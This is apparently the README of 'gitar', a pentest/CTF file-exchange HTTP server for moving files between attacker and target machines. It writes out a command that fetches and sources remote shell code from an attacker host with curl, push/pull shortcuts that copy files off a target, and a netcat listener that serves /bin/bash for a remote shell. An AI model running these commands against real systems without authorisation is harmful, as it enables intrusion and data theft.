 <div align=center>
<h1>gitar</h1>
<img src=https://github.com/ariary/gitar/blob/main/img/gitar-logo.png width=150>
	
<strong>📡 A more sophisticated python HTTP server sibling <br>🎸 focusing on having the simplest interactions for file exchange (Pentest/CTF)<br>🎵 with additional functionalities: <a href=#send-mode>quick file sending</a> and <a href=#webhook-mode>HTTP webhook logging</a> </strong>
<br>
</div>

|![demo](https://github.com/ariary/gitar/blob/main/img/gitar-screen.png)|
|:---:|
|**~>** Have the  ***simplest possible shortcuts*** to upload/download file to/from the target machine<br>**~>** ***No installation needed*** on target machine<br>**~>** ***Fast and simple*** deployment|



## TL;DR *- and listen music*

On my target machine:
 - **Download a file** from my attacker machine: `pull [file]` *(with filename completion)*
 - **Download a directory** from my attacker machine: `pullr [directory]` *(with filename completion)*
 - **Upload a file** to my attacker machine: `push [file]`
 - **Upload a directory** to my attacker machine: `pushr [directory]`

*Before be able to use these shortcut you have to [set up](#set-up) both machines. Once again, the aim is to made it as simple as possible*

## Set up


### 🎸 Launch `gitar` server 
 
On **Attacker machine**: 
```shell
gitar
```

On **Target machine**:

```shell
# Get shortcuts and source them. The one-liner corresponding is by default copy on clipboard. 
# It is also provided by step 1. (in gitar output):
source <(curl -s http://[attacker_ip:port]/alias)
```

**And that's all, you can now `push` or `pull` file [🎶](#tldr---and-listen-music)**

 <sup>[`with 💥`](https://github.com/ariary/bang/blob/main/EXAMPLES.md#share-files)</sup>

### 🐋 Secure launch of `gitar` server

This is basicaly the same as launching `gitar` server. But as we expose our http server we become the prey. Hence we must harden a bit the server. To do this we launch `gitar` inside a container and use HTTPS.

The following steps expose files of current directory. Files uploaded by remote are written inside current directory also.

On **Attacker machine**: 
```shell
docker run -it --rm --net host --cap-drop=all --cap-add=dac_override --user $(id -u):$(id -g)  -v "${PWD}:/gitar/exchange" ariary/gitar
```

**You can now `push`or `pull` file being more safe [🎶](#tldr---and-listen-music)**



<sup>[`with 💥`](https://github.com/ariary/bang/blob/main/EXAMPLES.md#share-files-safely)</sup>

### Pre-requisites

* HTTP Network connectivity between attacker & target machines
* On target machine: `curl` 
	* `tar` for directory upload 
* On attacker machine: 
	* `xclip` to copy command on clipboard (not required)
	* `tree`: to expose it trough server (not required)
	* `dig`: to automatically find extarnal IP (not required)

The aim is to keep "target requirements" as fit as possible. Attacker machine requirements are not a big deal as we have plenty control over it and time to configure it.

## Additional Functionalities

### `send` mode

Use this mode to quickly send a file to a target machine using different method/protocol. The advantage is that you do not have to remember the command line (if required field is not specified with flags it will be asked in a prompt).

It also has a kind of memory. with the `-l` flag it will use the previous configuration to send the file.
```shell
# send /img folder using scp with user root to target.com
gitar send scp -t target.com -u root /img
# now send exploit.sh to the same hsot
gitar send -l exploit.sh
```

### `webhook` mode

Use this mode if you want to have some logs about incoming HTTP requests. It enables us to:
* Log request information
	* request parameter values
	* request header values
* Override response
	* header 
* Forward request to another http server (~ local logging middleware)
* Serve directory
```shell
# log incoming request and retrieve payload parameter value
gitar webhook -P payload
```
## Install

```shell
go install github.com/ariary/gitar@latest
```

## Bonus

### Bidirectional exchange

You can also use `push` and `pull` shortcuts from attacker machine, after shortcuts have been loaded on target. It does not require addtional requirements on both machines. To do so it is recommended to load `alias` (put them in your `~/[SHELL]rc`) and launch gitar as follow:
```shell
gtrclean
gitar -bidi
```

On another attacker terminal window you can now push file to remote:
```shell
gtrbidi #to load gitar shortcut
push [FILENAME]

#[...] when your exchange is done
gtrclean 
```

***Notes:*** It will push files on remote within the directory where the `source` command occurs

#### 🐋 Container and bidirectional exchange
```shell
BIDIR=$(mktemp -d);docker run -it --rm --cap-drop=all --cap-add=dac_override --net host --user $(id -u):$(id -g)  -v "${PWD}:/gitar/exchange" -v "$BIDIR:$BIDIR" ariary/gitar -bidi -bd $BIDIR
```

Then on attacker machine load shortcut:
```shell
gtrbidi.docker
```

#### Limits
* Only work for file (does not work for `pullr` and `pushr`)
* Increase considerably the number of http requests on target

### Load shortcut directly in your reverse shell

**~>** *Below are the steps to have shortcuts directly embedded in your `nc` reverse shell*

On **Target machine**:
```shell
# Launch your classic listener
nc -nvlp 4444 -e /bin/bash
```

On **Attacker machine**:

1. Launch `gitar`server : `gitar -e [server_reachable_ip]` *(By default this will copy on clipboard the command to set up gitar exchange, also available in server output)*
2. Connect to the reverse shell + load shortcut within:`nc [VICTIM_IP] 4444` then `[CTRL+V]` 

An alternative is `export CMD=[CTRL+V] && (echo $CMD && cat) | nc [VICTIM_IP] 4444` *(Note: with `cat` you will not benefit of bash completion)*

**And enjoy you revshell [🎶](#tldr---and-listen-music)**


	
	
